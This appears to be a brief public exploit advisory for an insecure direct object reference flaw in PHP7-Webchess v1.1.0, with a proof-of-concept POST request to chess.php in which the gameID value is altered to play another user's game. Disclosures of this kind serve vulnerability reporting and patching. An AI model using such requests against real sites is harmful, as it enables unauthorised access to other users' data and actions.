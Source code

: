 # Exploit Title: PHP7-Webchess v1.1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to play the game that is created for other players(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /chess.php HTTP/1.1
...

rdoShare=no&gameID=1(CHANGE HERE)&sharePC=no
```